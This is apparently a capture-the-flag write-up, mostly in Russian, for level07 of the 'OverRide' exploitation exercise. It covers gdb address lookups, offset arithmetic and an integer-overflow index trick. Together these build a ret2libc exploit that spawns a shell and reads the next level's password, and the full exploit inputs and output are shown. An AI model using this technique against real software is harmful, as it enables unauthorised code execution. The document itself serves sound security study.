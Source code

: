 https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3
https://shellblade.net/files/docs/ret2libc.pdf
btw these articles are useful for all prev levels starting 05 (NX protection)
https://undo.io/resources/gdb-watchpoint/how-search-byte-sequence-memory-gdb-command-find/ - find gdb

Нас встречает программа: которая сохраняет в data table цифорки. Спустя недолгое время ресеча натыкаемся на тему Ret2Libc attack: https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3 , https://shellblade.net/files/docs/ret2libc.pdf . Первая статья буквально по шагово объясняет нам как пройти данный уровень. 

Так же мы видим такой ряд функций:
0x080485a0  frame_dummy
0x080485c4  clear_stdin
0x080485e7  get_unum
0x0804861f  prog_timeout
0x08048630  store_number - По любому здесь мы найдем адрес data table.
0x080486d7  read_number
0x08048723  main

Нам необходимо:
1. Найти адрес system
2. Найти адрес exit
3. Найти адрес "bin/sh"
4. Найти адрес data table
5. Найти eip адрес
6. Реализовать эксплойт (arg 1 = system, arg 2 = exit, arg 3 = bin/sh)


(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>  4159090384
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit> 4159040368
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec 4160264172

Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd650:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Saved registers:
  ebp at 0xffffd648, eip at 0xffffd64c - наш eip


End of assembler dump.
(gdb) p $ebp+0x8
$1 = (void *) 0xffffd460
(gdb) x/a 0xffffd460
0xffffd460:    0xffffd484 - data table addr

0xffffd64c - 0xffffd484 = 456
456 / 4(sizeof(uint)) = 114
114 - protected (%3 == 0)
then use uint max(2^32) + 114:
1073741938
1073741938 % 3 = 1


Эксплойт:
1) store
    4159090384 (system)
    1073741938 (114 index)
2) store
    4159040368 (exit)
    115
3) store
    4160264172 (bin/sh)
    116
4) quit

level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08

$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
